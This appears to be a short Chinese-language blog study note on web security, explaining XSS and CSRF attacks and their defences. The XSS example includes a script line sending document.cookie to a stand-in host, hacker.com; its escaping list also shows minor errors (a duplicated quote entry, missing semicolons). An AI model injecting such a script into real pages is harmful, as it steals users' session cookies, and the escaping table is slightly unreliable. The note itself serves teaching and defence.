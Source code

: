 ```yaml
---
title: 安全相关
date: 2018-06-10 22:42:09
tags: [安全]
---
```


# 安全

## XSS 攻击

举例

```javascript
div.innerHTML = (
  <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
);
// 恶意代码就被执行了，这就是 XSS
```

<!--more-->

预防
不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
如果你一样要用 innerHTML，字符过滤
把 < 替换成 `&lt`;
把 > 替换成 `&gt`;
把 & 替换成 `&amp`;
把 ' 替换成 `&#39`;
把 ' 替换成 `&quot`;
代码 div.innerHTML = userComment.replace(/>/g, '`&lt;`').replace...
使用 CSP Content Security Policy

## CSRF 攻击

利用用户的登录态发起恶意请求
过程
用户在 qq.com 登录
用户切换到 hacker.com（恶意网站）
hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
用户在不知不觉中添加 hacker 为好友。
用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
避免
检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
使用 csrf_token 来解决
